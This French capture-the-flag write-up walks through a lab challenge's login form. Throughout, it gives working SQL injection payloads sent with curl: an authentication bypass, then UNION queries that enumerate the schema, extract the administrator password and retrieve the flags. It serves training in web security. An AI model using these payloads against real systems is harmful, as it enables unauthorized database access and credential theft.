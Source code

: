 # Comme dans un Moul'1

> Ici les exemples sont exploités avec curl, mais bien entendu cela fonctionne tout aussi bien directement avec le formulaire dans le navigateur  

## Partie 1

Ici, on est face à un formulaire.  
Le premier réflexe pourrait être de tester si les inputs sont protégés contre les injections :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' OR 1=1 LIMIT 1#&password=" | grep INEAT
```

refexe somme toute plutôt efficace je dois dire : `<h1 class="corb-flag">INEAT{c0nn3xi0n_v4lid33}</h1>`

## Partie 2

> Cette méthode n'est certes pas la plus simple, mais elle a le mérite de retracer un peu plus en détail un scema d'exploitation d'injection SQL ;)

On est ici face au même site que le précédent. Il faut donc trouver une méthode pour exploiter ça un peu plus en profondeur.
On va alors essayer de partir à la recherche des colonnes de notre bdd :

```
curl -s "https://moulin.ctf.ineat.fr/" --data "username=' UNION SELECT 1 #&password=" | grep INEAT
```

Parfait, notre champ username est injectable : `Bienvenue 1!`  
On peut maintenant commencer à retrouver la structure de notre bdd au travers de ce champ :

```text
' UNION SELECT user() #
 <-- level2@172.27.0.3 --> 
 
' UNION SELECT database() #
<-- level2 -->

' UNION SELECT table_schema FROM information_schema.tables WHERE table_schema != 'information_schema' #
<-- level 2 -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'username' #
<-- users -->

' UNION SELECT username FROM users WHERE 1=1 LIMIT 1 #
<-- administrator -->

' UNION SELECT password FROM users WHERE username = 'administrator' #
<-- Bienvenue this is a very complexe password! So proud :)! -->
```

Rien de très intéresant de ce côté, on va donc chercher une table qui contiendrait un champ "flag"

```text
' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 0,1#
<-- INNODB_SYS_TABLES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 1,2#
<-- INNODB_SYS_TABLESPACES -->

' UNION SELECT table_name FROM information_schema.columns WHERE column_name = 'flag' LIMIT 2,3#
<-- my_secret_table -->
```

Ah, on tiens quelque chose d'intéressant (qu'on aurait pu avoir un peu plus tôt si on avait été un peu patient, j'en convient..)  
On peut vérifier que notre table a bien un colonne "flag" pour en avoir le coeur net :

 ```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'my_secret_table' #
<-- flag -->
```

On peut donc récupérer le flag
```
' UNION SELECT flag FROM my_secret_table #
<-- INEAT{U_f1nD_th3_s3cret_T4ble} -->
```
